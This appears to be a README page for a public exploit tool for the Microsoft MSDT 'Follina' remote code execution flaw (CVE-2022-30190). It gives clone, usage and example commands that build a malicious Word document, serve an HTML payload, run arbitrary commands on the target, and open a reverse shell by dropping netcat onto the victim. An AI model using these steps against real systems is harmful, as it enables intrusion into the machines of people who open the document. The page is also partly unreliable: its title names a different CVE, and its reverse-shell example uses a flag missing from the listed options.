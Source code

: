 # CVE-2022-21882

CVE-2022-30190 - Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability ‘Follina’.

CVE-2022-30190 is a remote code execution vulnerability that exists when MSDT is called using the URL protocol from a calling application such as Word. An attacker who successfully exploits this vulnerability can run arbitrary code with the privileges of the calling application. The attacker can then install programs, view, change, or delete data, or create new accounts in the context allowed by the user’s rights.

## Installation

```bash
git clone https://github.com/JohnHammond/msdt-follina
```

## Usage

```bash
follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]
```

## Flags

```bash
options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

## Examples

Pop **calc.exe**:

```bash
$ python3 follina.py
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop **notepad.exe**:

```bash
python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. Note, this downloads a netcat binary onto the victim and places it in **C:\Windows\Tasks**. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.

```bash
python3 follina.py -r 9001
```

![Folina example](../assets/images/folina-example.png)

## References

- [Github.com - msdt-follina](https://github.com/JohnHammond/msdt-follina)
- [YouTube.com - let’s play with a ZERO-DAY vulnerability ‘follina’](https://www.youtube.com/watch?v=3ytqP1QvhUc)
- [Fortinet.com - Analysis of Follina Zero Day](https://www.fortinet.com/blog/threat-research/analysis-of-follina-zero-day)
- [Kaspersky.com - Follina: office documents as an entrance](https://www.kaspersky.com/blog/follina-cve-2022-30190-msdt/44461/)
- [Cisa.gov - Microsoft Releases Workaround Guidance for MSDT ‘Follina’ Vulnerability](https://www.cisa.gov/uscert/ncas/current-activity/2022/05/31/microsoft-releases-workaround-guidance-msdt-follina-vulnerability)
- [Huntress.com - Rapid Response: Microsoft Office RCE - ‘Follina’ MSDT Attack](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug)
